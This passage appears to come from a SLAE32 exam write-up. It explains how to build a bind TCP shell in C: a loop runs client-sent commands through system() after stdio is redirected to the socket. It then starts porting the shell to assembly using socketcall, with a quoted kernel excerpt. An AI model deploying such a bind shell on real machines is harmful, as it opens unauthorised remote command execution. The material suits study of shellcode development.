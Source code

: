 I used `dup2` in order to redirect `stdin`, `stdout`, and `stderr` of the current shell towards the client socket, so it acts as an interactive shell.

What's missing now is the code that executes the commands sent by the client:

```cpp
char client_command[1024] = {0};

char *const parmList[] = {"/bin/sh", "-c", client_command, NULL};
char *const envParms[] = {NULL};

// receive data from client (max 1024 bytes)
while ((bytes_read = recv(client_socket_fd, &client_command, 1024, 0)) > 0) {
    // execute client command
    system(client_command);
    memset(client_command, 0, sizeof(client_command));
}
```

The loop right above checks if the client has sent any data. If so, it executes the command and sends `input`/`output`/`error` to the client socket.

Finally, it uses the function `memset` to clear the buffer that stores the command, in order to avoid previous commands from corrupting next ones.

The full C program can be found inside the [repo created for this exam](https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/1/attempt/first/shell_bind_tcp.c).

### Assembly

#### Socket creation

The first function we need to convert into Assembly is `socket`. Unfortunately, there isn't a specific syscall that creates a socket, although there is one named `socketcall`. Follows an excerpt taken from its [man page](https://linux.die.net/man/2/socketcall):

> `int socketcall(int call, unsigned long *args);`
>
> **socketcall()** is a common kernel entry point for the socket system calls. *call* determines which socket function to invoke. *args* points to a block containing the actual arguments, which are passed through to the appropriate call.

Based on this description and the function prototype, it seems we first need to find the right `call` value that references `socket()`. Although man pages don't list all the possible values for this argument (please contact me if you find them inside the man pages), we can take a look at the source code of the Linux kernel.

To be more specific, [this page](https://github.com/torvalds/linux/blob/master/net/socket.c#L2901) contains the implementation of the `socketcall` function, listing several possible value for the argument `call`:

```cpp
// ...

switch (call) {

  case SYS_SOCKET:
    err = __sys_socket(a0, a1, a[2]);
    break;

  case SYS_BIND:
    err = __sys_bind(a0, (struct sockaddr __user *)a1, a[2]);
    break;

  case SYS_CONNECT:
    err = __sys_connect(a0, (struct sockaddr __user *)a1, a[2]);
    break;

```